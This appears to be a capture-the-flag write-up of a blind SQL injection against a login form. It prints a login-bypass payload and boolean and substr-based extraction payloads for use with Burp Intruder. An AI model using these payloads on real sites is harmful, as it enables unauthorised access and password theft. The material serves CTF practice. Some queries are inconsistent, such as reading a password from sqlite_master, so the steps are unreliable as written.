





First we fuzz with the most common payload:
```
admin'-- -
```
It's gone through but nothing about the password have been showed

Then I try to use union but it's seem that server have filtered these keywords


This challenge is blind sqli so i try to fuzz with common database
```
username=admin' and (select username from information_schema.tables) = 'admin'-- -&password=a
```


SQLite3 -> use sqlite_master


-> Server response = True

Next we try to find password length with this payload using Intruder:
```
username=admin' and (select length(password) from sqlite_master)=$$-- -&password=a
```


-> Length = 8

Final payload to extract password:
```
username=admin' and substr((select password from sqlite_master),$$,1)='$$'-- -&password=a
```

